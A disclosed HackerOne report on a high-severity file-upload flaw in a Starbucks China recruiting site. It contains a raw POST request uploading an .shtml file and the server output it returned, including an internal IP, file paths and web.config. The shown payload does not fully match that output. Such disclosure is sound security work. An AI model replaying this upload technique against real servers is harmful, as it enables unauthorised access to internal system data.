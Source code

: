 # China - ecjobsdc.starbucks.com.cn html/shtml file upload vulnerability

## Report Details
- **Report ID**: 412481
- **URL**: https://hackerone.com/reports/412481
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-09-21T15:35:05.980Z
- **Disclosed**: 2020-01-29T01:17:24.371Z

## Reporter
- **Username**: b006e4ea768a5d1b5340969
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
### 1, Summary
During the test, I found ecjobsdc.starbucks.com.cn this site has an upload vulnerability, you can upload html and shtml format files, so you can read the server's intranet IP, the physical address of the website application and read the website web.config file.
###2, Vulnerability scope
https://ecjobsdc.starbucks.com.cn
###3, proof of exploit

By modifying the suffix of filename, this address can be uploaded to upload html and shtml files, so that you can read the server's intranet IP, the physical address of the website application, and the configuration file of the website.
Vulnerability certificate

```
POST /recruitjob/hxpublic_v6/hxinterface6.aspx?_hxcategory=hx_filebox_upload_file HTTP/1.1
Host: ecjobsdc.starbucks.com.cn
Connection: close
Content-Length: 234
Cache-Control: max-age=0
Origin: null
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryevPInYidBxSvSd06
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

------WebKitFormBoundaryevPInYidBxSvSd06
Content-Disposition: form-data; name="hxwebfileboxcontrol_upload_file_inputbox"; filename="xxx.shtml"
Content-Type: text/html

<?php echo 1111;>
------WebKitFormBoundaryevPInYidBxSvSd06--
```

Successfully read the website's remoteaddr webpathinfo web.config file.

```
DOCUMENT_NAMED:\TrustHX\STBKSERM101\www_app\tempfiles\temp_uploaded_34afb246-02f1-4cb0-978d-15805c2a05c8.shtml
SERVER_SOFTWARE :Microsoft-IIS/8.5
SERVER_NAME :ecjobsdc.starbucks.com.cn
SERVER_PORT :80
REMOTE_ADDR:10.92.29.50
REMOTE_HOST:10.92.29.50
D:\TrustHX\STBKSERM101\www_app\tempfiles\temp_uploaded_34afb246-02f1-4cb0-978d-15805c2a05c8.shtml
PATH_INFO:/recruitjob/tempfiles/temp_uploaded_34afb246-02f1-4cb0-978d-15805c2a05c8.shtml
text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
/recruitjob/tempfiles/temp_uploaded_34afb246-02f1-4cb0-978d-15805c2a05c8.shtml
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
    <system.webServer>
        <httpRedirect enabled="false" destination="https://ecjobs.starbucks.net" exactDestination="false" />
    </system.webServer>
</configuration>
```
{F349302}
{F349303}

## Impact

Phishing attack, remote file reading

## Attachments
- ss2.PNG
- ss1.PNg
